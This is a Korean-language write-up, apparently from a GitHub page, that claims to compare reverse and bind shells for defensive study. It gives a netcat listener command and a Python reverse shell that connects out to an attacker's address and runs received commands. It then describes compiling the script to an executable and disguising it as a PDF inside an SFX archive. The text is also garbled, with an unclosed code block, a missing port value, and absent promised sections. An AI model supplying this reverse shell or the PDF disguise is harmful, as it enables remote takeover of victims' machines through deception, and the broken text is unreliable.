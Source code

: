 # 리버스 쉘과 바인딩 쉘의 차이점 분석

## 1. 개요
보안 관제 및 해킹 방어 연구에서 **원격 제어(Remote Control)** 기법은 중요한 개념입니다. 이 중 **리버스 쉘(Reverse Shell)** 과 **바인딩 쉘(Binding Shell)** 은 공격자가 원격으로 시스템을 제어할 때 자주 사용되는 기법입니다. 본 보고서에서는 두 기법의 개념과 차이점을 분석하고, 보안적 대응 방안을 제시합니다.

## 2. 리버스 쉘(Reverse Shell)

### 2.1 개념
리버스 쉘은 **공격자가 제어하는 시스템(공격자 PC)** 에서 대기하고 있다가 **피해자의 시스템에서 공격자에게 연결을 요청하는 방식**입니다. 즉, 피해 시스템이 공격자의 시스템으로 **역으로 접속(reverse connection)** 하는 형태입니다.

### 2.2 동작 방식
1. 공격자가 원격에서 **서버 역할(Listener, 리스너)** 을 수행하며 대기
2. 피해 시스템이 공격자 시스템으로 **연결 요청을 전송**
3. 연결이 성공하면 공격자는 피해 시스템에서 명령을 실행할 수 있음

### 2.3 장점
- **방화벽 우회 가능**: 일반적으로 아웃바운드(Outbound) 트래픽은 방화벽에서 차단되지 않기 때문에 내부 네트워크에서도 실행 가능
- **공격자의 위치가 익명화됨**: 피해 시스템이 먼저 연결하므로 공격자의 IP가 쉽게 노출되지 않음

### 2.4 단점
- **피해 시스템이 아웃바운드 트래픽 차단 정책을 사용할 경우 실행 불가**
- **공격자가 연결을 수락할 준비가 되어 있어야 함**

### 2.5 활용 예시 (Netcat 이용)
공격자(리스너 설정):
```bash
nc -lvnp 4444

```python
import socket
import subprocess

def connect(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        return s
    except Exception as e:
        print("[-] Connection failed:", e)
        return None

def main():
    ip = ''  # 공격자의 IP 주소를 입력하세요
    port =   # 공격자의 포트 번호를 입력하세요
    s = connect(ip, port)
    if s:
        while True:
            command = s.recv(1024).decode()
            if 'exit' in command.lower():
                s.close()
                break
            try:
                output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
                s.sendall(output)
            except Exception as e:
                s.sendall(str(e).encode())
                pass

if __name__ == "__main__":
    main()

```
pip를 이용하여 pyinstaller로 .py 파일을 .exe 파일로 만들어줍니다.

우리는 이제 sfx 압축을 통해 위 파이썬 실행파일을 일반적인 pdf파일로 위장해야됩니다.

웹쉘 업로드, 리버스 쉘, 바인딩 쉘 차이점 
